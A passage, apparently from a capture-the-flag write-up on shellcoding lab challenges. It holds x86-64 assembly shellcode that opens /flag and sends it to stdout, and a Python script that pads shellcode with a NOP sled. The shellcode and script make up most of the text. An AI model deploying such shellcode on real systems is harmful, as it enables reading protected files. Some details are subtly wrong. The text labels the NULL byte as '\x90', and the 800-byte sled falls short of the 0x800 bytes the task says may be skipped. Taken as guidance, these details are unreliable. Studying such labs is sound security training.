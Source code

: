 ```s
    syscall                     # call into the kernel
    
    # Exit
    mov rax, 60                 # syscall (sys_exit)
    mov rdi, 42                 # exit number
    syscall                     # syscall
flag:
    .ascii "/flag\0"
```

## 2
```s
.intel_syntax noprefix
.global _start
.section .text
_start:
    mov rsi,0
    lea rdi, [rip+flag]
    mov rax, 2
    syscall

    mov rdi,1      # stdout
    mov rsi,rax    # /flag fd
    xor rdx,rdx    # offset
    mov r10,100    # count
    mov rax,40
    syscall
flag:
    .string "/flag"
```

```py
shellcode = ""
with open("sol.txt", "rb") as f:
    shellcode = f.read()
    f.close()

with open("sol.txt","wb") as f:
    data = b"\x90"*800
    data += shellcode
    f.write(data)
    f.close()
```
Task: This challenge will randomly skip up to 0x800 bytes in your shellcode. You better adapt to that! One way to evade this is to have your shellcode start with a long set of single-byte instructions that do nothing, such as `nop`, before the actual functionality of your code begins. When control flow hits any of these instructions, they will all harmlessly execute and then your real shellcode will run. This concept is called a `nop sled`.

## 3
Task: This challenge requires that your shellcode have no NULL (`\x90`) bytes!
